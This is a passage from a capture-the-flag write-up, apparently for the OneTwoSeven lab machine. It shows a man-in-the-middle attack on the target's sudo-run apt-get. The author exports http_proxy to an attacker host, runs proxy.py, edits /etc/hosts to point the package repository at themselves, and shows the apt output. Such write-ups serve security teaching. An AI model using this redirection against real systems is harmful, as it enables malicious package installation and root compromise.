 ### MitM

To position myself to serve updates, I’ll need to tell OneTwoSeven to proxy through me, and I’ll need a proxy and server waiting.

#### http\_proxy

First I’ll tell OneTwoSeven to proxy http through me by exporting the environment variable:

```

www-admin-data@onetwoseven:/$ export http_proxy=http://10.10.14.7:8888
www-admin-data@onetwoseven:/$ echo $http_proxy
http://10.10.14.7:8888

```

#### proxy.py

I’ll use [proxy.py](https://github.com/abhinavsingh/proxy.py) as my proxy. I can install it with `pip install --upgrade proxy.py`. Then I’ll run it, telling it to listen on all IPs and giving it the port to listen on:

```

root@kali# proxy.py --hostname 0.0.0.0 --port 8888
2019-08-26 06:05:16,433 - INFO - run:633 - Starting server on port 8888

```

#### /etc/hosts

Were I to run `apt-get update` right now, the requests would come to my proxy, where the requests for the three real Debian distros would proxy out to the internet, and the requests for `packages.onetwoseven.htb` would die because my host can’t resolve them. I want the three main ones to redirect off to nowhere, and the custom one to point to my host. I’ll use the `hosts` file to achieve that:

```
127.0.0.1 packages.onetwoseven.htb
192.0.2.1 de.deb.devuan.org

```
192.0.2.0/24 is a reserved block for testing (see [RFC 5737](https://tools.ietf.org/html/rfc5737)), so it shouldn’t be in use.

#### Testing

I’ll stand up a simple python web server and then run `apt-get update`. I’m going to include the full output I see in each of the windows because it’s interesting to understand what’s going on. On OneTwoSeven:

```

www-admin-data@onetwoseven:/$ sudo /usr/bin/apt-get update
Ign:1 http://packages.onetwoseven.htb/devuan ascii InRelease
Ign:2 http://packages.onetwoseven.htb/devuan ascii Release
Ign:3 http://packages.onetwoseven.htb/devuan ascii/main all Packages
Ign:4 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Ign:5 http://packages.onetwoseven.htb/devuan ascii/main Translation-en
Ign:3 http://packages.onetwoseven.htb/devuan ascii/main all Packages
Ign:4 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Ign:5 http://packages.onetwoseven.htb/devuan ascii/main Translation-en
Ign:3 http://packages.onetwoseven.htb/devuan ascii/main all Packages
Ign:4 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Ign:5 http://packages.onetwoseven.htb/devuan ascii/main Translation-en
Ign:3 http://packages.onetwoseven.htb/devuan ascii/main all Packages
Ign:4 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Ign:5 http://packages.onetwoseven.htb/devuan ascii/main Translation-en
```